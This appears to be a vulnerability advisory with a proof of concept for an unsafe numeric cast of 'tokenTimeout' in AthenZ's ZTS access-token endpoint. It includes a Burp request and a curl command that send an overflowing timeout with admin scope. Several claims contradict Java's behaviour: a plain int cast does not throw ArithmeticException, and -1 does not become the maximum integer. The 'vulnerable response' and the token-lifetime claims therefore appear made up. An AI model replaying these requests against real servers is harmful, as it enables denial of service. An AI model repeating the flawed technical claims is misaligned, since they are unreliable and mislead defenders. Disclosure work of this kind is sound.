 # 🔐 AthenZ Access Token API: Numeric Casting Vulnerability in `tokenTimeout`

## Summary

A critical vulnerability was discovered in the `AthenZ` access token generation logic due to an unsafe numeric cast of a user-controlled parameter. This vulnerability enables attackers to manipulate token expiration, trigger denial-of-service, or potentially cause memory exhaustion in the JVM.

* **Project:** [AthenZ](https://github.com/AthenZ/athenz)
* **Affected Component:** `ZTSImpl.java` (`/zts/v1/accesstoken` endpoint)
* **Vulnerability Type:** Unsafe Numeric Cast (CWE-681)
* **Severity:** High
* **CVSS v3.1:** 7.5 (High) – AV\:N/AC\:L/PR\:L/UI\:N/S\:U/C\:N/I\:N/A\:H
* **Status:** Fixed in [PR #3033](https://github.com/AthenZ/athenz/pull/3033)

---

## Details
In the `ZTSImpl.java` implementation, the `tokenTimeout` field (of type `long`) from an incoming JSON request is cast directly to a Java `int` without bounds checking:

```java
long tokenTimeout = request.getTokenTimeout(); // User-controlled
int timeout = (int) tokenTimeout; // 
```

When large or negative `long` values are passed, the cast overflows or wraps around the `int` range, resulting in unexpected runtime behavior, including:

* **ArithmeticException** due to invalid timeouts.
* **Denial-of-Service** from unhandled JVM errors or crashes.
* **Token Logic Bypass**, e.g., issuing tokens that last for decades.

---

## Proof of Concept (PoC)

### Prerequisites

* Running vulnerable version of AthenZ ZTS (before PR #3033).
* Access to `POST /zts/v1/accesstoken` endpoint.
* Valid client credentials or certificate (ZMS service identity).

## Burp Suite HTTP Request
```http
POST /zts/v1/accesstoken HTTP/1.1
Host: zts.example.com:4443
Content-Type: application/json
Connection: close

{
  "grantType": "client_credentials",
  "scope": "admin",
  "tokenTimeout": 2147483648
}
```

## Vulnerable Response
```http
HTTP/1.1 500 Internal Server Error
Content-Type: application/json

{
  "code": 500,
  "message": "java.lang.ArithmeticException: integer overflow"
}
```


## Vulnerable Code

[`ZTSImpl.java`](https://github.com/AthenZ/athenz/blob/3bdd5b8a5bb50b1a93c2207b32b32dd3344f86f3/servers/zts/src/main/java/com/yahoo/athenz/zts/ZTSImpl.java#L2715)

```java
public AccessTokenResponse postAccessTokenRequest(ResourceContext context, 
    AccessTokenRequest request) {

    long tokenTimeout = request.getTokenTimeout();  // 🛑 Unvalidated input
    int timeout = (int) tokenTimeout;              // ❌ Unsafe cast

    return generateAccessToken(..., timeout);
}
```


## Exploitation Impact

### 1. Denial-of-Service
Passing `tokenTimeout = 2147483648` causes overflow to negative `int`, triggering:

```
java.lang.ArithmeticException: integer overflow
```

## Token Lifetime Manipulation
Passing `tokenTimeout = -1` results in a maximum positive integer value (`2147483647`), issuing tokens valid for decades.

## JVM Memory Corruption (Theoretical)
Passing `Long.MAX_VALUE` or malformed payloads could result in excessive heap memory allocation attempts.

## CLI Exploitation (Using `curl` or ZMS CLI)

```bash
curl -k -X POST 'https://localhost:4443/zts/v1/accesstoken' \
  -H 'Content-Type: application/json' \
  --cert service_cert.pem --key service_key.pem \
  -d '{
    "grantType": "client_credentials",
    "scope": "admin",
    "tokenTimeout": 2147483648
  }'
```


## Impact
This vulnerability stems from improper numeric type conversion (`long → int`) without input validation. An attacker can supply large or negative values to manipulate internal logic. The most severe consequences include:

* **Denial-of-Service (DoS):** Exploiting casting edge cases triggers runtime exceptions and crashes.
* **Authentication Bypass:** Tokens issued with manipulated lifetimes could be used for extended access far beyond intended expiration.
* **Potential Resource Exhaustion:** Large tokenTimeout values may overload memory due to unchecked allocation.

---


## References

* [CWE-681: Incorrect Conversion Between Numeric Types](https://cwe.mitre.org/data/definitions/681.html)
* [CERT Java NUM12-J](https://wiki.sei.cmu.edu/confluence/display/java/NUM12-J.+Ensure+conversions+of+numeric+types+to+narrower+types)
* [AthenZ Access Token API Docs](https://athenz.io/docs/zts/zts-api/#postaccesstoken)
